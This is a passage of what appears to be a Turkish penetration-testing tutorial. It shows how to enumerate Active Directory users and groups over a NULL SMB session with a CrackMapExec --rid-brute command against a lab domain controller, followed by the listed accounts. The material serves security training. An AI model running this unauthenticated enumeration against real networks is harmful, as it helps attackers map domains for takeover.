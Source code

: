 Burada, herhangi bir hesap olmadan tüm domain kullanıcılarını ve password policy'yi listeleyebiliriz. Bu yapılandırma her zaman mevcut olmayabilir, ancak mevcutsa, domain'i ele geçirme amacımıza başlamak için bize yardımcı olacaktır.


### Kullanıcıları rid bruteforce ile numaralandırma

Bir domainin kullanıcılarını belirlemek için --rid-brute seçeneği kullanılabilir. Bu seçenek özellikle NULL Authentication'a sahip ancak belirli sorgu kısıtlamaları olan bir domain ile uğraşırken kullanışlıdır. Bu seçeneği kullanarak, domain'deki kullanıcıları ve diğer nesneleri numaralandırabiliriz.


### Enumerating Users with --rid-brute

```
crackmapexec smb 10.129.204.172 -u '' -p '' --rid-brute

SMB 10.129.204.172 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True)
(SMBv1:False)
SMB 10.129.204.172 445 DC01 [+] Brute forcing RIDs
SMB 10.129.204.172 445 DC01 498:
INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB 10.129.204.172 445 DC01 500:
INLANEFREIGHT\Administrator (SidTypeUser)
SMB 10.129.204.172 445 DC01 501:
INLANEFREIGHT\Guest (SidTypeUser)
SMB 10.129.204.172 445 DC01 502:
INLANEFREIGHT\krbtgt (SidTypeUser)
SMB 10.129.204.172 445 DC01 512:
INLANEFREIGHT\Domain Admins (SidTypeGroup)
SMB 10.129.204.172 445 DC01 513:
INLANEFREIGHT\Domain Users (SidTypeGroup)
...SNIP...
SMB 10.129.204.172 445 DC01 1853:
INLANEFREIGHT\abinateps (SidTypeUser)
SMB 10.129.204.172 445 DC01 1854:
INLANEFREIGHT\bustoges (SidTypeUser)
SMB 10.129.204.172 445 DC01 1855:
INLANEFREIGHT\nobseellace (SidTypeUser)
SMB 10.129.204.172 445 DC01 1856:
INLANEFREIGHT\wormithe (SidTypeUser)
SMB 10.129.204.172 445 DC01 1857:
INLANEFREIGHT\therbanstook (SidTypeUser)
SMB 10.129.204.172 445 DC01 1858:
INLANEFREIGHT\sweend (SidTypeUser)
SMB 10.129.204.172 445 DC01 1859:
INLANEFREIGHT\voge1993 (SidTypeUser)
SMB 10.129.204.172 445 DC01 1860:
INLANEFREIGHT\lach1973 (SidTypeUser)
SMB 10.129.204.172 445 DC01 1861:
INLANEFREIGHT\coulart77 (SidTypeUser)
SMB 10.129.204.172 445 DC01 1862:
INLANEFREIGHT\whirds (SidTypeUser)
SMB 10.129.204.172 445 DC01 1863:
INLANEFREIGHT\sturhe (SidTypeUser)
SMB 10.129.204.172 445 DC01 1864:
INLANEFREIGHT\turittly (SidTypeUser)
...SNIP...
```
